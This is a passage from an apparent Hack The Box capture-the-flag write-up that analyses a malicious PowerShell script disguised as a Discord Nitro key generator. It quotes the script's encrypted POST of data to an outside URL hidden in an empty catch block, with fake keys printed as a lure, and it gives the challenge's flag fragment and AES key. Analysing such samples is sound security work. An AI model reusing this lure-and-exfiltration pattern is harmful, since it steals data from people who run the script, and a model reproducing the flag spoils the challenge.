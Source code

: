 ```powershell
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}

Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

So here we now have a Powershell script.

We have the first part of the flag in the variable `$part1` in base encoded form: `HTB{fr33_N17r0G3n_3xp053d!_`

The following code section shows us that the other part is probably AES encrypted.


```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}
```

And we also have the AES key: `$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="`.

So I use that [online tool](https://www.devglan.com/online-tools/aes-encryption-decryption) to decrypt the AES data and I decode the output via cyberchef.

__AES Decryption:__
